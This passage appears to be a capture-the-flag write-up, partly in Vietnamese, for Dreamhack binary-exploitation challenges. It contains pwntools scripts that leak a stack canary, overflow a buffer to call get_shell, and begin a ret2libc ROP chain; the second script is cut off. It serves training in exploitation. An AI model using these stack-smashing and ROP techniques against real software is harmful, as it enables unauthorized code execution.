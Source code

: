 ```

bonus 

```
from pwn import *

e = ELF('./ssp_001')
p = remote('host1.dreamhack.games',8219)
canary = ''

for i in range(128,132):
	p.sendafter('>','P')
	p.sendlineafter(':',str(i))
	p.recvuntil(':')
	canary += chr(int(p.recvline().strip(),16))

canary = u32(canary)
log.info(hex(canary))

p.sendafter('>','E')
p.sendlineafter(':','1000')
p.sendafter(':','A'*0x40 + p32(canary) + 'A'*8 + p32(e.symbols['get_shell']))

p.interactive()
```

-------------



6 . rop
-------


- bài này chỉ là ret2libc
- cả 2 lần read đều bị BOF , lần read đầu tiên sẽ leak canary → read thứ 2 sẽ leak read_got hoặc puts_got → ret2libc

![image](https://hackmd.io/_uploads/HyTKGSiQJe.png)

script :

```
#!/usr//bin/python3
from pwn import *
context.binary = exe = ELF('./rop',checksec=False)
libc = ELF('./libc.so.6')
#p = process()
p = remote('host3.dreamhack.games', 23953)

p.sendafter(b'Buf: ',b'a'*56+b'b'*1)
p.recvuntil(b'b')
canary = u64(b'\x00'+p.recv(7))
print("canary: ",hex(canary))
read_got = exe.got.puts
read_plt = exe.sym.puts
write = exe.sym.write
pop_rsi_r15 = 0x0000000000400851
pop_rdi = 0x0000000000400853
main = exe.sym.main
